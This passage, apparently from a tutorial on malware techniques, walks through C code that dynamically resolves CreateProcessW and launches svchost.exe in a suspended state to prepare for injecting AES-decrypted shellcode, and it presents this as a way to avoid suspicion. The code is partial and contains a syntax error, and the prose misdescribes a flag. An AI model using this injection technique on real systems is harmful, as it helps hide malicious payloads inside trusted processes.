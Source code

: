 The AES decryption routine ensures that the injected shellcode is in its original, unencrypted form, which is essential for executing it within the target process. This decryption process allows attackers to conceal the true nature of their payload until it is actively executed in the target process's thread. 

Next `CreateProcessW` 

```c
pfnCreateProcessW pCreateProcessW = (pfnCreateProcessW)GetProcAddress(GetModuleHandleW(L"KERNEL32.DLL"), "CreateProcessW");
if (pCreateProcessW == NULL) {
    // Handle error if the function cannot be found
}

STARTUPINFOW si;
PROCESS_INFORMATION pi;

// Clear out startup and process info structures
RtlSecureZeroMemory(&si, sizeof(si));
si.cb = sizeof(si;
RtlSecureZeroMemory(&pi, sizeof(pi));

std::wstring pName = L"C:\\Windows\\System32\\svchost.exe";

HANDLE pHandle = NULL;
HANDLE hThread = NULL;
DWORD Pid = 0;

BOOL cProcess = pCreateProcessW(NULL, &pName[0], NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

```

The `CreateProcessW` function is invoked to create a new process, which, in this case, is intended to execute the `svchost.exe` application. However, a critical parameter here is `CREATE_SUSPENDED`, which is set to `TRUE`, After successfully creating the suspended process, the code retrieves the process and thread handles. These handles are crucial for further manipulation of the newly created process.

```
pHandle = pi.hProcess;
hThread = pi.hThread;
Pid = pi.dwProcessId;
```

With the suspended process and its associated handles in place, now we ready to proceed with the code injection, which involves injecting shellcode into the memory space of the newly created process.

Creating a suspended process provides an ideal opportunity to inject code and manipulate the process without raising immediate suspicion.

In the next steps, we will proceed to inject the shellcode into the suspended process, ultimately leading to its execution within the context of the target process's thread, However Before injecting the shellcode, memory space is allocated within the target process to accommodate the injected code. This allocation is done using the `VirtualAllocEx` function.
